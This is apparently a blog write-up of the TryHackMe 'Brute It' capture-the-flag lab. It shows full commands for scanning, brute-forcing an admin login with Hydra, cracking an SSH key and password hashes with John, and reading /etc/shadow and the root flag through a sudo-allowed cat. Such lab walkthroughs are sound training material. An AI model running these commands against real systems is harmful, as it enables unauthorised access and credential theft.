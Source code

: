 ```yaml
---
title: Try Hack Me - Brute It
date: 2020-11-30 01:17 +0300
categories: [Try Hack Me]
tags: [Linux, Brute-force, Hash cracking, Privilege escalation]     # TAG names should always be lowercase
---
```


# Welcome

Hey there! Glad to see you.

In this box you will learn about:
- Brute-force
- Hash cracking
- Privilege escalation

# Nmap

First of all let's scan our machine and see what we have

<pre class="highlighter-rouge highlight">
nmap -sC -sV -O 10.10.238.144

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-29 
Nmap scan report for 10.10.238.144
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/29%OT=22%CT=1%CU=35597%PV=Y%DS=2%DC=I%G=Y%TM=5FC404
OS:77%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=A)SEQ(SP=
OS:106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW6%O2=M508ST11NW6%
OS:O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2
OS:=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.01 seconds
</pre>

So I will go web page and try to find something interesting.

# Gobuster

<pre>
gobuster dir -w /opt/directory-list-lowercase-2.3-medium.txt -u http://10.10.238.144

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.144
[+] Threads:        10
[+] Wordlist:       /opt/directory-list-lowercase-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/29 23:31:43 Starting gobuster
===============================================================
/admin (Status: 301)
</pre>

I found hidden directory <code class="language-plaintext highlighter-rouge">/admin</code>

<img src="/assets/img/bruteit_img/admin.png">

# Hydra
Turn on Hydra to crack password!

<pre>
hydra -l admin -P /opt/rockyou.txt 10.10.238.144 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
[80][http-post-form] host: 10.10.238.144   login: admin   password: ******
</pre>

This link helped me with hydra usage <a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a>

We got the username and password. 
Sign in to website and we get'll the Web flag.

<img src="/assets/img/bruteit_img/admin_panel.png">

Also we can see RSA private flag. After googling i found that we need it for conneting to ssh. I copied it and named <code class="language-plaintext highlighter-rouge">id_rsa</code>. We must find the password to connect to ssh.

Let's brute it with John!

# John The Ripper

This link helped me with John and cracking password with RSA private key 
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>

# Connect to SSH
We got the password after John. It's time to connect to SSH.

Change permission 
<pre> chmod 600 id_rsa </pre>
Connect 
<pre>ssh -i id_rsa john@10.10.238.144</pre>

Now you can read User.txt

<img src="/assets/img/bruteit_img/user_flag.png">

# Privilage Escalation
Let's see what we can do with john account
<pre>sudo -l</pre>
<img src="/assets/img/bruteit_img/sudo-l.png">
I can use cat. I went to <code class="language-plaintext highlighter-rouge">gtfobins</code>

Hmmmm...I have no clue. And this guide - <a href="https://gtfobins.github.io/gtfobins/cat/">Privilage escalation with cat</a> taught me that i can use <code class="language-plaintext highlighter-rouge">cat</code> to grab <code class="language-plaintext highlighter-rouge">/etc/shadow</code> and <code class="language-plaintext highlighter-rouge">etc/passwd</code>.Let's do it

<pre>
LFILE=/etc/shadow
cat $LFILE
</pre>

<pre>
LFILE=/etc/passwd
cat $LFILE
</pre>

This article helped me with John and cracking password 
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>

After that I got the password and read the root flag
<img src="/assets/img/bruteit_img/rootflag.png">

We also could read the root flag without cracking password.
<pre>
LFILE=/root/root.txt
cat $LFILE
</pre>


# Userful for me references

<div><a href="https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/">How to Brute Force Websites & Online Forms Using Hydra</a></div>
<div><a href="https://www.abhizer.com/crack-ssh-with-john/">Crack SSH Keys (id_rsa) with John & rockyou.txt | Password Cracking</a></div>
<div><a href="https://docs.rackspace.com/support/how-to/logging-in-with-an-ssh-private-key-on-linuxmac/">Log in with an SSH private key on Linux and macOS</a></div>
<div><a href="https://tzusec.com/crack-password-hashes-from-linux-with-john-the-ripper/">How to crack hashes with John the Ripper – Linux</a></div>
<div><a href="https://gtfobins.github.io/gtfobins/cat/">Privilage escalation with cat</a></div>
